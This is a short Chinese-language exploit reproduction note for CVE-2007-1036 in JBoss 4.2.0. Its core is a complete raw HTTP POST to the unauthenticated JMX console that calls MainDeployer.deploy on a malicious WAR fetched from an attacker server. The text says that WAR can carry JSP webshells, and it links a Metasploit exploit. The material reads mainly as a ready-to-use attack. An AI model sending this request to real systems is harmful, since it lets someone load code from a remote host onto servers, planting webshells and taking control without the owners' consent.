 CVE-2007-1036
--

### 复现环境
jdk 1.8
jboss 4.2.0

### 复现方法

```
POST /jmx-console/HtmlAdaptor HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 150
Content-Type: application/x-www-form-urlencoded

action=invokeOpByName&name=jboss.system%3Aservice%3DMainDeployer&methodName=deploy&argType=java.lang.String&arg0=http://xxxxxx/a.war
```

![](assets/burp_poc.png)

其中arg0是攻击者服务器上放置的恶意war包，包中可以放置jsp大马、小马什么的。

### msf exp

https://www.exploit-db.com/exploits/16318

### python poc

jboss_file_creation_cve20072036
自己根据msf exp改一下吧，不方便放出来